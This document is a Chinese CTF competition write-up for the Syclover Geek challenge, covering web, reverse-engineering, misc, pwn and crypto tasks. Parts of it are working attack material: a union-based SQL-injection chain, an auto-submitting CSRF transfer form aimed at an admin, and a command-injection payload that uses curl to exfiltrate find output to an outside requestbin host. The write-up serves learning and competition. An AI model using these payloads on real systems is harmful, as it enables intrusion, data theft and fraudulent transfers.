## Web

### 朋友的学妹

签到题

直接查看页面源码就可以看见一个flag

```
<!--flag=U1lDe0YxQF80c19oNExwZnVsbGxsbGx9-->
```


### EZwww

#### 考点：网站备份文件泄露

提示信息为：备份是个“好🤺”习惯

我们就可以首先想到网站备份文件，类似于.bak 

> 有些时候网站管理员可能为了方便，会在修改某个文件的时候先复制一份，将其命名为xxx.bak。而大部分Web Server对bak文件并不做任何处理，导致可以直接下载，从而获取到网站某个文件的源代码

刚开始，我尝试了好多文件名+bak，但还是没找到目标文件，最后看到题目提示，www，猜测可能备份文件名为：**www**

得到的压缩包有一个flag!!!!.txt，可惜，这个是假的flag

再看另一个index.php文件

```php
<?php
$key1 = $_POST['a'];
$key2 = base64_decode('c3ljbDB2ZXI=');
if($key1 === $key2)
{
    //this is a true flag
echo '<p>SYC{xxxxxxxxxxxxxxxxxx}</p>';
}
?>
```

看到这个，那就很简单了

post提交一个a的参数，要求于**$key2**的值相等，这就要求我们先把$key2用base64接出来

我们现在只需要**post传入a参数**，值为：**sycl0ver**

> SYC{Backup_1s_4_good_h4bit_l0l}


### 刘壮的黑页

#### 考点：GET&POST提交

我们查看页面，看到这样一段话**你听说过请求方式吗？**，再看到页面最下面

```php
<?php
include("flag.php");
highlight_file(__FILE__);
$username = $_GET['username'];
$passwd = $_POST['passwd'];
if ($username === 'admin' && $passwd === 'syclover') {
    echo $flag;
}
```

也是比较简单的题目，只需要我们分别用**POST**和**GET**传入两参数，就好了

> SYC{d0_y0u_k0nw_GET?}


### Welcome

#### 考点：POST传参，phpinfo，绕过sha1

进入后题目后发现页面回显405

看到题目提示：In addition to the GET request method, there is another common request method...

用post传参，并且日常看看能不能看到**phpinfo.php**

尝试后找到这个

```
http://49.234.224.119:8000/?a=

//post传
a=<?php phpinfo();?>
```

就看到一点东西，（小声哔哔一下，我这里的环境拿火狐使用就没问题，chrome就有问题了）



```php
<?php
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        
?>
```

这个就是一道很简单的一句话木马了，我们拿蚁剑连接，看到在根目录下就有一个flag

> SYC{1iuzHuang_yyd_G0d!}


### ezbypass

#### 考点：绕过

> Please use a GET request to pass in the variables a and b, compare them with strcmp and let strcmp return a value of NULL.
>
> Note that a and b cannot be equal. 
>
> 请使用GET请求传入变量a和b，将其与strcmp进行比较，并让strcmp返回NULL值。
>
> 请注意，a和b不能相等。

看到提示信息我们就可以开始构造变量a和b了，注意最后一句，==a和b不能相等==，我觉得这个是重点，既然这样的话，我们可以借用一下前面题目的payload

```
?a[]=1&&b=1
```

ok，第一部分已经绕过了，现在要我们用**POST传入一个参数c，要求非数字，并以使其等于123**

> OKOK,You got the first step.
> Please POST a variable c that is not a number to make it equal to 123 
>
> 好的，您迈出了第一步。
> 请发布一个非数字的变量c以使其等于123

我测试了一下，只有当我用**纯数字**的时候，才会有报错，因此我只需要加入一个空格（%23）就可以绕过了

```
c=123%23
```


### 带恶人六撞

#### 考点：SQL注入

提示：

> 你想了解带恶人六撞吗，数据库里有大家关于他的描述。

首先判断类型：

测试后发现是一个单引号闭合字符串类型

```
?id=1' or 1=1 %23
```

没什么好说的了，开始注入，先判断一波回显位数

```
?id=0' order by 4 %23	//回显位为四位
```

获取库

```
?id=0' union select 1,2,3,database() %23
```

获取表

```
?id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema="geek_sql" %23
```

获取字段

```
?id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name="fllllag"%23
id,fllllllag
```

获取值

```
?id=0' union select 1,2,3,group_concat(id,':',fllllllag) from fllllag %23
```


### flagshop

#### 考点：CSRF攻击

这道题提示我们需要在页面里搞到钱，买到flag，关键点就是**钱从哪来**？

让我们现再仔细观察一下页面，我们每一个账号都有一个身份id，注册用户的身份是一个普通的用户

在主页里我们可以看到一个财务管理员的id：==Longlong==（待会我们会用到这个ID），如果搞到他的账户登录，或者让他打钱给我们我们不就有钱了，因为我们可以看到一个**转账的页面**

题目的提示也验证了我们的猜想，而且但也堵上了第一条路

> 1.No sessionid!Don't Try to be admin(robot?) 2.Do you know csrf?
>
> 1.没有sessionid！不要尝试成为管理员（机器人？）2.您知道csrf吗？


**我们先了解一下CSRF**

> 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。跟跨网站脚本（XSS）相比，**XSS** 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任
>
> 跨站请求攻击，简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并运行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去运行。这利用了web中用户身份验证的一个漏洞：**简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的**。

总结一下我们的攻击手段，我们需要挟制一个有钱的用户，让他打钱到我们的账户中，这样我们就有钱买flag了


**现在就是实现的步骤了：**

1. 我们需要写一个跨站脚本，来伪造一份转账记录
2. 我们需要选择一个受害账户，让他来运行我们的脚本

我们先来看一看一个**正常的转账数据包**长什么样子

```
POST /transfer.php HTTP/1.1
Host: 173.82.206.142:8005
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------41269904543009196447964679449
Content-Length: 402
Origin: http://173.82.206.142:8005
Connection: close
Referer: http://173.82.206.142:8005/transfer.php
Cookie: PHPSESSID=95912f409b60a14797aa6d00f05471c1
Upgrade-Insecure-Requests: 1

-----------------------------41269904543009196447964679449
Content-Disposition: form-data; name="target"

q
-----------------------------41269904543009196447964679449
Content-Disposition: form-data; name="money"

1
-----------------------------41269904543009196447964679449
Content-Disposition: form-data; name="messages"

emmm
-----------------------------41269904543009196447964679449--
```

头部信息是一个正常的信息，我们需要记住**URL地址**

下面的文件信息倒是之前没有见到过，这个是一个特殊的POST提交


> POST 几种请求主要包括 application/x-www-form-urlencoded、 multipart/form-data、application/json、text/xml 四种的方法
>
> 1、application/x-www-form-urlencoded (默认常用)
>
> ​	最常见的 POST 提交数据的方式
>
> 2、multipart/form-data
>
> ​	令一个常见的 POST 数据提交的方式。**我们使用表单上传文件时**，必须让 表单的 enctyped等于 multipart/form-data
>
> 这个就是我们这次的POST提交方式了
>
> 3、application/json
>
> ​	这种方案，可以方便的**提交复杂的结构化数据**，这种POST提交方式越来越多，用来告诉服务端消息主体是序列化后的 JSON 字符串
>
> 4、text/xml
>
> ​	现在基本不用

**multipart/form-data**：就是我们这一次用到的一种POST提交方式了

```php
<form action="http://173.82.206.142:8005/transfer.php" method=post enctype="multipart/form-data">
	<input type="text" name="target" class="form-control form-control-line" value='e'>
    //第一个input就是提交我们的转账对象，这里就是我们自己的账户了
	<input type="text" name="money" class="form-control form-control-line" value='10000000000000000000'>
    //第一个input是转账的金额
	<input type="submit" class="btn btn-success" value="转账">
    //提交按钮，我们要保证数据包的完整，下面的也是
	<textarea rows="5" name="messages" class="form-control form-control-line"></textarea>
</form>
<script>document.forms[0].submit();</script>	//这个就是写一个js自动提交，当点到这个php页面的时候，自动进行提交
```

ok，已经完成了一半了，现在需要找到一个用户，让他去点击我们的这个页面


我们看到报告页面，这里有一个用户反馈页面，我们观察到其中一条



我们可以提交一个报告，这个Longlong会去点击报告里的链接，这样我们就可以挟制他给我们打钱了

但我们在提交报告时遇到了一个问题，这个验证码填什么

> md5($code)[0:5] == d93b5

写一个脚本吧：

```python
import hashlib

def md5value(s):  # md5加密函数
    md5 = hashlib.md5()  # 获取一个md5加密算法对象
    md5.update(s.encode('utf-8'))  # 指定需要加密的字符串
    return md5.hexdigest()  # 获取加密后的16进制字符串

for i in range(0, 10000000):
    if md5value(str(i))[0:5] == "d93b5":	#填入值
        print(i)
        break
```

ok，我们只需要将PHP文件部署再自己的服务器上，再报告提交链接就可以了，成功买到flag


### 知X堂的php教程

#### 考点：代码执行

提示：

> 知X堂（PS:请勿对号入座）的php教程开课啦！ん？好像不太对劲？
>
> 注意查看当前目录和文件名

进入后，点击教案进入一个目录，这里的文件名为：**listdir.php**



进入flag.php，发现url是**phpfile=**，而且后面直接带了一个文件就能打开查看内容了，而且页面提示看目录文件，于是更改为**listdir.php**就可以看到内容了



文件打开后可以看到目录页面下的源代码了



**注意：** 

这个目录界面有个$_GET['dirname']参数被传进去，而且直接放到了exec()中，我们都知道exec()允许执行一个外部程序


同时，这里还引用了一个waf.php，那我们再看一下这个waf



这个waf里面设置了过滤

**总结一下，我们可以利用dirname参数来进行代码执行，需要绕过一些东西**

我们可以尝试注入代码，可是没有回显


这里推荐使用一个在线网站，[对URL分析收集对其发出的请求](http://requestbin.net/)

原理是让靶机访问这个url，这个网站会对靶机的请求包做一个分析，同时返回给我们一个数据

这就是我们最后的payload

```
/listdir.php?dirname=; curl http://requestbin.net/r/wo949nwo?inspect=`find / -name 'flag'`
```



找到了路径，直接拿去打开就好了




### 忏悔的刘壮

#### 考点：python脚本编写

提示：

> 刘壮天天干坏事，这次终于让我逮到他在python教堂忏悔了

让我们回答一个随机答案，每忏悔一次成功就记录一次，需要我们一直忏悔20次，但给我们的时间只有3秒，所以我们只能写脚本来忏悔，需要带上上一次的cookie

```python
import requests
def request_func(req):
    cookie_new = requests.utils.dict_from_cookiejar(req.cookies)
    req = request.post("http://120.79.197.4:5000/check",data=cookie_new)
    result = req.text
    print(result)
    return req

request=requests.session()
url = "http://120.79.197.4:5000/"
req = request.get(url)
cookie = requests.utils.dict_from_cookiejar(req.cookies)
req2 = request.post("http://120.79.197.4:5000/check",data=cookie)
result = req2.text
print(result)
need_req = request_func(req2)
i = 0
while i < 20:
    i += 1
    need_req = request_func(req)
```


## Re

### No RE no gain

#### 考点：IDA的使用

比较简单的re题目，里面有好多flag，但都不对，只有下面单独的是

> SYC{S4y_He11o_th3_RE_World!!!}


### 我真不会写驱动！

#### 考点：IDA的使用

比上面一题还简单，直接查找字符串就出来了

> SYC{First_Win64_DRIVER}


### WhatsApk

#### 考点：安卓逆向工具

我们要用到安卓逆向的工具，搜索flag就出来了


### re00

#### 考点：异或加密

用IDA打开，进入主函数

```c
  puts("please input your flag:");
  read(0, buf, 0x30uLL);
  if ( strlen(buf) == 32 )
  {
    puts("nonono!");
    exit(0);
  }
  for ( i = 0; i <= 31; ++i )
  {
    if ( (char)(buf[i] ^ 0x44) != byte_4060[i] )
    {
      puts("wow, almost!");
      exit(0);
    }
  }
  puts("yes! you get it!");
  result = 0LL;
  v1 = v4 < *MK_FP(__FS__, 40LL);
  return result;
}
```

我们看到，buf[i] ^ 0x44 进行异或，我们现在找到**byte_4060[i]**就可以写个python进行异或了

```python
str = [0x17, 0x1D, 0x07, 0x3F, 0x37, 0x2D, 0x29, 0x34, 0x28, 0x21, 0x1B, 0x37, 0x2D, 0x29, 0x34, 0x28, 0x21, 0x1B, 0x3C, 0x2B, 0x36, 0x36, 0x36, 0x1B, 0x36, 0x2D, 0x23, 0x2C, 0x30, 0x7B, 0x7B, 0x39]

flag = ''
for i in range(0,32):
    flag += chr(str[i] ^ 0x44)
print(flag)
```

> SYC{simple_simple_xorrr_right??}


### maze

#### 考点：迷宫题

用IDA打开，惯例找找字符串，在里面发现了一串很奇shj怪的-----和ooooo，进入后就是我们要的主函数

通过sh'j

逆向解出迷宫图，获得起始点和终点

```
___________ooooo_____o________o
_ooooooooo__ooo__ooo_oooooooooo
_oooooooooo__o__oooo_oooooooooo
________oooo___ooooo_oooooooooo
ooooooo_oooooooooooo_oooooooooo
ooooooo_ooooo_oooooo_oooooooooo
ooooooo_ooooo_oooooo_oooooooooo
S_______ooooo_oooooo__________E
ooooooooooooooooooooooooooooooo
```

flag就是路线，得到flag

```
SYC{dddddddwwwwaaaaaaawwwddddddddddsdsdsddwdwdwddddsssssssdddddddddd}
```


### Hello.NET


```python
numArray=[18,14,40,-14,-2,30,10,42,35,48,43,49,52,72,57,68,86,145,115,128,115,86]
list=[101,103,107,109,113,127,131,137,139,149,151,157,163,167,173,179,181,191,193,197,199,211]
flag=''
for i in range(0,22):
    flag+=chr(list[i]-numArray[i])
print(flag)
```


### un_snake

#### 考点：代码审计，pyc文件反编译

题目给了一个pyc文件，这里我们需要准备一个python库，**uncompyle6**，可以直接将pyc文件反编译为py文件

> pyc文件同级目录下，cmd ：uncompyle6 -o pcat.py pcat.pyc


接下来就是需要对代码进行审计了

```python
# uncompyle6 version 3.7.4
# Python bytecode 3.8 (3413)
# Decompiled from: Python 3.8.3 (tags/v3.8.3:6f8c832, May 13 2020, 22:37:02) [MSC v.1924 64 bit (AMD64)]
# Embedded file name: ./un_snake.py
# Compiled at: 2020-08-05 16:20:40
# Size of source mod 2**32: 1238 bytes


import this
from base64 import *

def pre(data):
    th1s = 'TBESCFSRSAEUITANAIIN'.encode()
    if (data_len := len(data)) > (th1s_len := len(th1s)):
        th1s = th1s * (data_len // th1s_len) + th1s[:data_len - th1s_len]
    return bytes(map(lambda x, y: x ^ y, data, th1s))       # data和th1s进行异或操作，返回2进制


def enc(plain):
    plain = list(plain)
    plain = plain[::-1]
    for i in range(len(plain)):
        c = plain[i]
        plain[i] = (c << 3 | c >> 5) & 255
    else:
        for i in range(len(plain) - 1):
            plain[i] ^= plain[(i + 1)]
        else:
            return bytes(plain)


def check(a):
    return b64encode(a) == b'mEiQCAjJoXJy2NiZQGGQyRm6IgHYQZAICKgowHHo4Dg='


if __name__ == '__main__':
    print()
    while True:
        stuff = input('Now input you flag:')
        stuff_ready = pre(stuff.encode())
        result = check(enc(stuff_ready))
        if result:
            print('You get it! Python is so charming right?')
            break
        else:
            print('Failed, try again!')

    print('[🐍] Commit you flag, see you next time!')
```

我们可以看到这是一个python3.8版本进行编辑的，不难写出还原代码：

```python
from base64 import *

a = b'mEiQCAjJoXJy2NiZQGGQyRm6IgHYQZAICKgowHHo4Dg='
flag = b64decode(a)

flag = list(flag)
n = len(flag) - 1

for i in range(len(flag) - 1):
    flag[(n - i - 1)] ^= flag[(n - i)]
else:
    for i in range(len(flag)):
        c = flag[i]
        flag[i] = (c >> 3 | c << 5) & 255

flag = flag[::-1]
flag = bytes(flag)


th1s = 'TBESCFSRSAEUITANAIIN'.encode()
if (flag_len := len(flag)) > (th1s_len := len(th1s)):
    th1s = th1s * (flag_len // th1s_len) + th1s[:flag_len - th1s_len]

flag = bytes(map(lambda x, y: x ^ y,flag, th1s))

print(flag)
```

**补充：**

> 从python3.8开始，海象运算符获得正式python版本的支持
>
> `:=`：海象运算符，会把表达式的一部分赋值给变量，提高了运行速度
>
> 下面两个的效果是一样的：
>
> ```
> if (n := len(a)) > 10:
>     print(f"List is too long ({n} elements, expected <= 10)")
> ```
>
> ```
> n = len(a)
> if n > 10:
>     print(f"List is to long({n} elements, expected <= 10)")
> ```


## Misc

### 一“页”障目

#### 考点：拼图



右边拼起来就行了

> SYC{syc_20_ver}


### 壮言壮语

#### 考点：佛曰解码

> 佛曰：豆梵能佛冥謹沙怯隸道等孕喝伽訶恐奢耶尼殿怯怖奢三缽南怛缽娑皤寫數皤究呐者醯皤勝孕皤顛皤耶夜哆悉侄羯涅悉怯老若俱勝菩知菩所蘇奢以梵世心亦呐耨夷哆至哆醯即波怯明除怯闍怯集怯尼明皤實怯一心缽呼侄羯夢室諳耨呐提迦梵都都呐孕礙諳那呐彌豆缽智遮諳槃提伽俱穆離冥伊冥那藐罰摩迦諳有諳盡即怯多逝侄婆冥涅神

用佛曰解码就好了

```
我刘壮就是np，给你flag吧,SYC{i_l0ve_Japanese_wife}
```


### 秘技·反复横跳

#### 考点：binwalk

题目给了一张照片，但是提示binwalk，这是再图片里藏了东西，我们用binwalk打开

```
binwalk -e FFHT.jpg
```

得到这个二维码，我们拼成正常的扫码就好了


### 来拼图

#### 考点：就是拼个图

手工，看到写了字的图就拿出来，拼就完了

写脚本，尝试了，效果不太好，就不用了


## Pwn

### 数学咋样？

nc连上做20道题目就好了


### runcode

#### 考点：c语言

题目提示：

> flag在/home/ctf/flag， 不允许出现system, 出现runtime error则重新run一下

我们写一个读取文件的c程序就好了

```c
#include <stdio.h>
 
int main()
{
   FILE *fp = NULL;
   char buff[255];
 
   fp = fopen("/home/ctf/flag", "r");
   fscanf(fp, "%s", buff);
   printf("1: %s\n", buff );
}
```


## Crypto

### 二战情报员刘壮

#### 考点：摩斯密码

>  .-../.----/..-/--../..../..-/....-/-./--./..--.-/../..--.-/--../.----/-.--/.----

SYC{l1uzhu4ng_i_z1y1}


### 铠甲与萨满

#### 考点：凯撒密码

> YEI{roafnagtmroafnagtm_hgtmhgtmhgtm}

通过凯撒密码解得

> SYC{liuzhuangliuzhuang_bangbangbang}


### 跳跃的指尖

题目描述:

> wdr qsz awdx thu xdv eft thu ol rgy ilp(注意请将请将答案套上SYC{}提交)

很简答，就是键盘密码


### 成都养猪二厂

#### 考点：猪圈密码+栅栏密码

提示：

> v先生家里蛮大的，还有很多啤酒。v先生之所以能过上这样快哉的生活可能是因为他的养猪场厂围上了高高的栅栏

